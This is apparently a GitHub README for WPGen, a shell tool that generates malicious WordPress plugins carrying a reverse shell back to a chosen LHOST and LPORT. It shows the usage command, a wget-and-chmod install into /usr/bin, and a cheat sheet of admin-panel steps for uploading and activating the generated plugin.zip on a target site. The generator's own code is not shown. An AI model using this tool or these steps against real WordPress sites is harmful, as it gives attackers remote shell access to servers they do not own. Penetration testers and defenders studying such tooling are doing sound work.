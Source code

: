 # WPGen

**Auto Generator Malicious Plugins WordPress `(Reverse Shell)`**

![](/screenshot.png)

- <kbd>Use</kbd>

```cmd
root@kali:~# WPGen -h <LHOST> -p <LPORT>
```

- <kbd>Download / Install</kbd>

```cmd
root@kali:~# wget -q "https://raw.githubusercontent.com/d4t4s3c/WPGen/main/WPGen.sh" -O /usr/bin/WPGen
root@kali:~# chmod +x /usr/bin/WPGen
```

- <kbd>Cheat Sheet</kbd>

  * Plugins
    * Add New
    * Upload Plugin
    * Examine
    * Select `plugin.zip`
    * Install New
    * Activate Plugin

---
